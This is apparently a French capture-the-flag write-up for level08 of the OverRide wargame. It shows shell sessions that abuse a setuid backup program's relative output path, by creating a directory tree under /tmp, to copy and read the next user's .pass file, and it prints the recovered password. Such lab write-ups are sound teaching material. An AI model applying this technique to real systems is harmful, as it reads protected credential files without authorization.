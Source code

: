 Testons!

nous avons un fichier backups completement vide avec en fichier cache un .log qui est vide.

"
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
"

"
level08@OverRide:~$ ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
"

notre programme prend en argument un fichier, il essaie de l'ouvrir en faisant "./backups//home/users/level09/.pass".

nous essayons de creer le pass.
"
level08@OverRide:~$ mkdir -p ./backups//home/users/level09
mkdir: cannot create directory `./backups//home': Permission denied
"

Interdit!

Donc nous essayons avec "/tmp"

"
level08@OverRide:~$ mkdir -p /tmp/backups//home/users/level09/
"

"
level08@OverRide:/tmp$ cd /tmp
level08@OverRide:/tmp$ ~/level08 ~level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
"

et nous appelons le programme
